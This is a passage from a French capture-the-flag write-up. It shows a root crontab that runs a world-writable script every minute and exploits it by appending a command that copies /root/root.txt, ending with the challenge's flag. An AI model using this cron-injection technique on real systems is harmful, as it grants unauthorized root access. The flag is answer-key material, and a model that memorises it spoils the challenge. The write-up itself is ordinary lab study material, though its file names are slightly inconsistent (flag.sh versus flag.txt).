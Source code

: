 cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the \`crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *	* * *	root	cd /home/jack && bash id.sh
#

```

Ici on voit qu'il un script id.sh qui est en mode écriture pour tout le monde.  
De plus en regardant dans la configuration crontab on remarque que le script est appellé avec les droits root.  

```bash
echo "cat /root/root.txt > flag.sh" >> id.sh
cat flag.txt
d89d5391984c0450a95497153ae7ca3a
```

On modifie le fichier pour le script écrit le réponse dans un fichier que l'on a droit de lire.  
On lit le fichier.  

La réponse est : d89d5391984c0450a95497153ae7ca3a  